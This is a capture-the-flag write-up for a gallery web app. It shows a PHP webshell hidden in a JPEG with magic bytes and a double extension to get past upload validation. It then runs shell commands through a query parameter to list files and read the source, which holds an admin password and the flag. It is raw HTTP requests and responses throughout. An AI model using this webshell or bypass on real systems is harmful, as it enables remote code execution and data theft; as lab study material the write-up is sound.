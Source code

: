 ![](../img/TPG.png)

# Information gathering

Entering the page the user is presented with a choice "Upload your artwork" or Browse the gallery.  
![](../img/TPG_First.png)


Entering the gallery the user is presented with multiple images with random names.  
![](../img/TPG_Gallery.png)


Uploading an image the apps adds random string of characters in front of the original name of the file when uploading.

Using the upload form to upload a image gives the redirects the user to the gallery page.  
![](../img/TPG_Upload.png)
```http
POST /upload HTTP/1.1
Host: 134.122.88.8:5005
Content-Length: 31291
Cache-Control: max-age=0
Accept-Language: en-GB,en;q=0.9
Origin: http://134.122.88.8:5005
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryGAAHlBuhSrUytxWA
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://134.122.88.8:5005/upload
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

------WebKitFormBoundaryGAAHlBuhSrUytxWA
Content-Disposition: form-data; name="image"; filename="georgie_pose.jpg"
Content-Type: image/jpeg

ÿØÿà JFIF      ÿÛ C 			





	


ÿÛ C

[...]
```


So to find the upload images the user need to browse the gallery or enter the ```/uploads``` endpoint to find the last uploaded image.  
![](../img/TPG_Uploads.png)


From here it's possible to access a image directly.  
![](TPG_Georgie.png)


Trying to upload a new image with the same name but containing a simple webshell written in PHP an error is returned.  
```http
HTTP/1.1 200 OK
[...]
        <section class="main-content">
            <h2>Contribute to the Royal Archive</h2>
            
            
                
                    <div class="messages">
                        
                            <div class="message">File does not appear to be a valid image</div>
                        
                    </div>
[...]
```


But using a file signature or "magic bytes" it's possible to bypass this validation on the backend.  
https://en.wikipedia.org/wiki/List_of_file_signatures  
```http
POST /upload HTTP/1.1
Host: 134.122.88.8:5005
Content-Length: 31291
Cache-Control: max-age=0
Accept-Language: en-GB,en;q=0.9
Origin: http://134.122.88.8:5005
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryJfHPOnzvhptO9nuH
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://134.122.88.8:5005/upload
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

------WebKitFormBoundaryJfHPOnzvhptO9nuH
Content-Disposition: form-data; name="image"; filename="test_shell_data.php.jpg"
Content-Type: image/jpeg

ÿØÿà JFIF 

<?php echo system($_GET['command']); ?>
------WebKitFormBoundaryJfHPOnzvhptO9nuH--
```

Accessing the newly uploaded "image" an error message occurs that tells the attacker that the script is executed.  
![](TPG_Accessing_web_shell.png)


# Attack
Adding the query string to the script endpoint (```command```) it's possible to execute commands on the server.  
Requesting ```ls ..``` to list content from the parent folder.  
```http
GET /uploads/c074188ba97ebf54_test_shell_data.php.jpg/?command=ls%20.. HTTP/1.1
Host: 134.122.88.8:5005
Cache-Control: max-age=0
Accept-Language: en-GB,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Cookie: session=eyJfZmxhc2hlcyI6W3siIHQiOlsibWVzc2FnZSIsIkltYWdlIHVwbG9hZGVkIHN1Y2Nlc3NmdWxseSEgVmlldyBpdCBpbiB0aGUgZ2FsbGVyeS4iXX1dfQ.aBeWfg.d22GsPv3qqc09pG-FnFEJBeeQiE
Connection: keep-alive
```

```http
HTTP/1.1 200 OK
Date: Thu, 01 May 2025 08:35:53 GMT
Server: Apache/2.4.54 (Debian)
X-Powered-By: PHP/7.4.33
Vary: Accept-Encoding
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8
Content-Length: 122

ÿØÿà JFIF 

Dockerfile
app.py
backup.bak
docker-compose.yml
requirements.txt
start.sh
static
templates
uploads
uploads
```

Adding ```cat app.py``` to the query.
```http
HTTP/1.1 200 OK
Date: Thu, 01 May 2025 08:41:37 GMT
Server: Apache/2.4.54 (Debian)
X-Powered-By: PHP/7.4.33
Vary: Accept-Encoding
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8
Content-Length: 4245

ÿØÿà JFIF 

from flask import Flask, render_template, request, redirect, url_for, flash, send_from_directory, session
import os
import imghdr
import secrets
from werkzeug.utils import secure_filename

app = Flask(__name__)
app.config['SECRET_KEY'] = secrets.token_hex(16)
app.config['UPLOAD_FOLDER'] = 'uploads'
app.config['MAX_CONTENT_LENGTH'] = 2 * 1024 * 1024  # 2MB max size
app.config['ADMIN_PASSWORD'] = 'Anubis_Guardian_1337'  # For admin section
app.config['FLAG'] = 'O24{Th3_Phar40h_Kn0ws_Y0ur_P0lygl0t_Tr1cks}'
```

```Flag: O24{Th3_Phar40h_Kn0ws_Y0ur_P0lygl0t_Tr1cks}```